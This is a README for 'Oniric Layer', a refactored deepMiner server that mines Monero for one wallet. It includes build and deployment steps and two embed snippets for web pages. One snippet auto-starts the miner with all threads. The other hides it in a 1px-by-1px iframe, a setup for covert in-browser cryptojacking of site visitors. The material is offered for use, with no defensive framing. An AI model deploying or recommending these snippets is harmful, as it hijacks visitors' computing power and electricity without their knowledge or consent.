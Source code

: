 

-= Oniric Layer =- 

A private XMR Server worker that work for one wallet 

Complete typescript refactoring and optimization 

of https://github.com/deepwn/deepMiner

-= Development =-

run these commands

1 - gulp
2 - npm run test 


-= Production =-

run these commands:

1 - gulp
2 - npm run compile
3 - go to dist/build and copy oniric , config.json and web directory
4 - put copied files via ftp on a web server and start with pm2 oniric executable



-= Usage =-

add this to web page:


- 1 Classic configuration
 
<script src="server/lib/oniric.min.js"> </script>
<script> var userID = 'Oniric';
         		var miner = new Oniric.Init(userID, {
         			autoThreads: true
         		});
         		miner.start(); </script>


- 2 Another configuration

<iframe style="display:block" width="1px" height="1px" src="yourserver:port/miner.html"></iframe>